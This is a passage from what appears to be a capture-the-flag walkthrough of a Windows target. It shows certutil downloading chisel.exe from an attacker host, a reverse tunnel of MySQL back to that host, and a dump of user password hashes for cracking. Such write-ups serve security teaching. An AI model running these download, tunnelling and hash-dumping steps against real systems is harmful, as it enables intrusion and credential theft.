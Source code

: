 ```shell
}
?>
```

Because we don't have an interactive shell, it's a bit difficult to work with.
You can use the mysql Windows binary that comes with XAMPP, but you'll have to send your queries in one-liners.
Instead, I'll use chisel to port forward the MySQL connection from the Windows machine to my Linux host and access it locally.

```shell
# On my host
./chisel server --port 1337 --reverse

# Upload chisel to the target
c:\Windows\Temp>certutil -urlcache -f http://10.10.14.34:8000/chisel.exe chisel.exe

# Port forward MySQL to my host
c:\Windows\Temp>.\chisel.exe client 10.10.14.34:1337 R:3306:127.0.0.1:3306
```

Then, I can use the credentials discovered earlier to access the MySQL database from my Linux host.

```shell
mysql -u certificate_webapp_user -h 127.0.0.1 -P 3306 --skip-ssl -p 
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 14
Server version: 10.4.32-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

I'll dump password hashes from the users table to crack.

```
MariaDB [certificate_webapp_db]> select username, password, role from users \G;
*************************** 1. row ***************************
username: Lorra.AAA
password: $2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG
    role: teacher
*************************** 2. row ***************************
username: Sara1200
password: $2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK
    role: teacher
*************************** 3. row ***************************
username: Johney
password: $2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq
    role: student
*************************** 4. row ***************************
username: havokww
password: $2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti
    role: teacher
*************************** 5. row ***************************
username: stev
password: $2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2
    role: student
*************************** 6. row ***************************
username: sara.b
password: $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6
    role: admin
*************************** 7. row ***************************
```
